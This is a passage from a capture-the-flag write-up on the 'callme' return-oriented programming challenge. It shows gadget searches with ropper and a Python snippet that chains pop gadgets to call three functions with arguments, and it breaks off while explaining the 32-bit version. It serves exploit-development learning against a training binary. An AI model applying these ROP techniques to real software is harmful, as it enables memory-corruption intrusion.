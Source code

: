 ```bash
$ ropper --file callme --search "pop rsi"
0x0000000000401b21: pop rsi; pop r15; ret;
0x0000000000401ab1: pop rsi; pop rdx; ret;
```

While the first one was OK, the second was extremely helpful as I could take 
care of both the second and third parameters at once.


## Building the ROP Chain

Having obtained the information we needed, I now just need to build up the rop 
chain. The process is strait-forward and looks like this:

```python
# set up our constants
call_one = 0x401850
call_two = 0x401870
call_three = 0x401810
pop_rdi = 0x401b23
pop_rsi_pop_rdx = 0x401ab1

# start by calling callme_one()
rop_chain = p64(pop_rdi, endian="little")
rop_chain += p64(0x1, endian="little")
rop_chain += p64(pop_rsi_pop_rdx, endian="little")
rop_chain += p64(0x2, endian="little")
rop_chain += p64(0x3, endian="little")
rop_chain += p64(call_one, endian="little")

# similar process repeats for callme_two() and callme_three()
```


## Solution

Having put everything together, I ran the script with the following results:

![solution](../../assets/images/solution_02.png "Solution")

The solution is available in [exploit_02.py](exploit_02.py)


## 32 Bit Version

So, I assumed the 32 bit version would be *easy*... a simple variant of the 64 
bit version with a few minor modifications. How incredibly wrong I was. It 
kicked my tail... hard. That said, I now understand how the stack works *much* 
better and anticipate the subsequent 32-bit challenges to be less of a hill to 
climb.

The initial portion of the process is exactly as you would expect (determining 
the offset, etc.). Where things differed for me was in building the ROP chain.  
We know that 32-bit calling convention uses stack-based parameter passing (vs.  
the registers that 64 bit uses). We also know that the parameters should be 
pushed on the stack in reverse order (right-to-left). This means that it should 
look something like the following:
